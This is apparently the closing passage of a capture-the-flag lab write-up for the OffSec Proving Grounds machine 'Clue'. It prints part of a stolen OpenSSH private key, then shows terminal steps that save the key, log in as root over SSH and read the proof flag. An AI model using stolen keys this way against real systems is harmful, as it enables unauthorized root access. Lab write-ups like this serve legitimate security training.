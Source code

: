 `QIwreEaH8MF1+HUWtAAK1Lig53N0yNbIHTQ/Uk90QziiPDM+7QJx265XSRUkOd22wOoBws`
`mv4uzzNijfvrMLIm4IIGic9WK2vaYHopYgu/9qMrBuCs0xmlBvymscveVEhVpuNpK/RshP`
`HUox7JrJr4r4PPzhW7y4c0Uk7SuGqAEAa1SAEk0lZr0Rm3DCz0+2wsg7PJlitBM5Orj6r8`
`UWkAp9uw12pR7jjkWS8+avLLHsh/8NoyhJhI+HAAAAAwEAAQAAAQBjswJsY1il9I7zFW9Y`
`etSN7wVok1dCMVXgOHD7iHYfmXSYyeFhNyuAGUz7fYF1Qj5enqJ5zAMnataigEOR3QNg6M`
`mGiOCjceY+bWE8/UYMEuHR/VEcNAgY8X0VYxqcCM5NC201KuFdReM0SeT6FGVJVRTyTo+i`
`CbX5ycWy36u109ncxnDrxJvvb7xROxQ/dCrusF2uVuejUtI4uX1eeqZy3Rb3GPVI4Ttq0+`
`0hu6jNH4YCYU3SGdwTDz/UJIh9/10OJYsuKcDPBlYwT7mw2QmES3IACPpW8KZAigSLM4fG`
`Y2Ej3uwX8g6pku6P6ecgwmE2jYPP4c/TMU7TLuSAT9TpAAAAgG46HP7WIX+Hjdjuxa2/2C`
`gX/VSpkzFcdARj51oG4bgXW33pkoXWHvt/iIz8ahHqZB4dniCjHVzjm2hiXwbUvvnKMrCG`
`krIAfZcUP7Ng/pb1wmqz14lNwuhj9WUhoVJFgYk14knZhC2v2dPdZ8BZ3dqBnfQl0IfR9b`
`yyQzy+CLBRAAAAgQD7g2V+1vlb8MEyIhQJsSxPGA8Ge05HJDKmaiwC2o+L3Er1dlktm/Ys`
`kBW5hWiVwWoeCUAmUcNgFHMFs5nIZnWBwUhgukrdGu3xXpipp9uyeYuuE0/jGob5SFHXvU`
`DEaXqE8Q9K14vb9by1RZaxWEMK6byndDNswtz9AeEwnCG0OwAAAIEAxxy/IMPfT3PUoknN`
`Q2N8D2WlFEYh0avw/VlqUiGTJE8K6lbzu6M0nxv+OI0i1BVR1zrd28BYphDOsAy6kZNBTU`
`iw4liAQFFhimnpld+7/8EBW1Oti8ZH5Mx8RdsxYtzBlC2uDyblKrG030Nk0EHNpcG6kRVj`
`4oGMJpv1aeQnWSUAAAAMYW50aG9ueUBjbHVlAQIDBAUGBw==`
`-----END OPENSSH PRIVATE KEY-----`
`freeswitch@clue:/$`

Create the key, set the permissions, connect as root, and get the proof.txt

`┌──(user㉿kalipurple)-[~/Offsec/ProvingGrounds/Clue]`
`└─$ mousepad id_rsa`     
                                                                                                                       
`┌──(user㉿kalipurple)-[~/Offsec/ProvingGrounds/Clue]`
`└─$ chmod 600 id_rsa`      
                                                                                                                       
`┌──(user㉿kalipurple)-[~/Offsec/ProvingGrounds/Clue]`
`└─$ ssh -i id_rsa root@192.168.190.240`          
`Linux clue 4.19.0-21-amd64 #1 SMP Debian 4.19.249-2 (2022-06-30) x86_64`

`The programs included with the Debian GNU/Linux system are free software;`
`the exact distribution terms for each program are described in the`
`individual files in /usr/share/doc/*/copyright.`

`Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent`
`permitted by applicable law.`
`Last login: Fri Feb  9 15:28:32 2024 from 192.168.45.235`
`root@clue:~# cat /proof.txt`
`cat: /proof.txt: No such file or directory`
`root@clue:~# cat proof.txt`
`The proof is in another file`
`root@clue:~# ls`
`proof.txt  proof_youtriedharder.txt`
`root@clue:~# cat proof_youtriedharder.txt`
`d1cffa0c5c5cf00f2127fa2b594e9fe4`


